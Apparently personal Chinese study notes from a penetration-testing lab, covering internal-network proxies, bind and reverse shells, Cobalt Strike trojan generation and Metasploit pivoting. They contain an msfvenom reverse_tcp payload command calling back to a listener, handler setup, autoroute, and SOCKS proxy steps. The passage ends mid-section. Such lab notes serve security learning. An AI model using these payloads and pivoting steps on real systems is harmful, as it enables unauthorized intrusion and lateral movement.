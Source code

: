 ```yaml
---
categories: [渗透测试]
tags: 代理 CobaltStrike msf 域渗透
---
```


# 2023.10.08

## 0x01 内网代理与隧道
参考视频：[内网代理+cs+msf](https://www.bilibili.com/video/BV1bG4y127FG/?spm_id_from=333.337.search-card.all.click&vd_source=6671d33bcf63c21d36edfa9a8e5b473e)
***
必看链接:[内网隧道](https://www.cnblogs.com/0x7e/p/14369551.html)
***
### 1.1 代理

解决不出网的问题，比如 A 主机在外网，B 主机在内网，这时就需要将 A 主机当作跳板去访问 B 主机。

#### 转发

端口转发，也是解决访问问题，只不过是将某一个端口转发到外网服务器上。

### 1.2 隧道

解决协议问题，比如禁用了 http 或者 tcp 协议，这时就只能使用 icmp 等一些底层协议。

> **_Question:_** 在内网渗透中，该如何选择代理方式及隧道方式？

---

### 1.3 正向马、反向马

#### 正向马（bind shell）

攻击端主动连接目标机，常用于**内网渗透**中

> **_Attention:_** 这种情况下，Kali 攻击机可以出网，但目标主机不能出网
> ![2023-10-09-11-24-07.png](https://s2.loli.net/2023/10/09/9V3HT7FCMDl4i15.png)

#### 反向马（reverse shell）

目标机主动连接攻击端，常用于目标主机在外网中，比如：一句话木马

> **_Attention:_** 这种情况下，目标机可以出网，但 kali 攻击机不能出网
> ![2023-10-09-11-26-01.png](https://s2.loli.net/2023/10/09/el4D9qRVBPAMyC1.png)

---

### 1.4 Cobalt Strike 的部署及使用

hacker ----> 服务器（cs 部署在外网） ----> 受害机

```bash
# 服务器端
sudo ./teamserver '服务器IP' 'password'
# 客户端 kali linux
./start.sh # 弹出窗口后输入服务器ip地址，可修改端口，用户名，密码为服务器端启动时的password

# 客户端 windows
## 双击运行start.bat
```

### 1.5 Cobalt Strike 生成 windows 木马，生成 linux 木马

> **_Note:_** 外网的环境暂时不会弄代理，现在暂时全部使用虚拟机测试使用 cs

#### Ubuntu 搭建 cs 服务端

```bash
# 更换镜像源（不知道为啥之前一直没换）
vi /etc/apt/sources.list

apt-get update
apt-get install openjdk-11-jdk

./teamserver '服务器ip' 'password'
```

<details> <summary>镜像源文件内容</summary>
<pre><code class="language-bash">
# 镜像源文件内容
# 默认注释了源码镜像以提高 apt update 速度，如有需要可自行取消注释
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-updates main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-updates main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-backports main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-backports main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-security main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-security main restricted universe multiverse
# 预发布软件源，不建议启用
# deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-proposed main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-proposed main restricted universe multiverse
</code></pre>
</details>

#### kali linux 搭建 cs 客户端

1. 输入服务端相关信息登入客户端界面
2. 使用下图的方式生成一个 exe 木马
   ![image.png](https://s2.loli.net/2023/10/09/9qzFV6jvOUkrIte.png)
3. 将木马复制到 windows 机器中，双击执行
4. 成功上线
   ![2023-10-09-16-12-26.png](https://s2.loli.net/2023/10/09/pIcQhf4CkJ5z98s.png)

#### CobaltStrike&SOCKS代理使用
> **_Note:_**为什么使用SOCKS代理？
>  
> 方便进行内网渗透，访问内网服务。

hacker ----> web机器 ----> 内网服务机器

##### Proxifier
Proxifier是一款全局代理客户端，它可以让应用程序通过代理服务器连接到互联网。

1. 在ubuntu开启cs服务端，kali开启cs客户端后，对win11会话进行代理转发，设置SOCKS4a代理，端口为29064。
2. 开启Proxifier客户端，新建一个SOCKS4a代理，服务器ip为ubuntu的ip地址，即10.211.55.5，端口为刚刚开启代理转发的端口，即29064。
3. 如果这个win11机器本身是不出网的，无法访问，那么没有设置proxifier规则的浏览器是无法访问这个机器的；但是如果添加了代理转发规则，这个浏览器就可以访问这个本来不出网的机器了。这是因为，proxifie将请求转发给了cs（10.211.55.5:29064）这个代理服务器，代理服务器将这个请求转发给了这台不出网机器，从而在这二者之间建立起了连接，不出网机器也可以将响应返回给客户端。

### 1.6 Metasploit 生成 windows 正向反向木马，Linux 正向反向木马
#### msf生成反向x86马
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.137 LPORT=2323 -f exe > shell.exe

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp # 这里替换为生成使用的payload
set LHOST your-IP # msf所在机器的ip
set LPORT your-port # 连接的端口
exploit

show options # 查看配置

# 添加路由,在msf中添加路由的作用类似于cs中设置代理转发，作用是作为跳板代理出来
run post/multi/manage/autoroute
# 查看路由
arp -a
run autoroute -p
# 添加指定路由，1是接收的session编号
route add 192.168.11.0 255.255.255.0 1
# 挂起会话
background
# 查看路由表
route print

# 设置SOCKS代理，也就是在当前msf运行的机器上的1115端口启动一个SOCKS代理服务器
use auxiliary/server/socks_proxy
# 其他选项其实都不用改
set srvhost 0.0.0.0
set srvport 1115
run
```
#### Proxifier
在msf中设置SOCKS代理后，再次开启proxifier进行代理添加，与之前相同，填写msf所在机器的ip与相应的端口。再次尝试浏览器对这个ip地址进行访问。 

> **_Note:_**在proxifier中新建代理有两种情况：
> ![2023-10-10-15-56-24.png](https://s2.loli.net/2023/10/10/lrXyBu5aoFp1YEd.png)
> 1. 选择某一应用程序，则只有在使用此应用程序时会走代理
> 2. 在target host中写入192.168.58.*，则在所有应用程序访问这个网段时均可以走这个代理

#### proxychains4
如果希望使用proxychains4，那么就可以
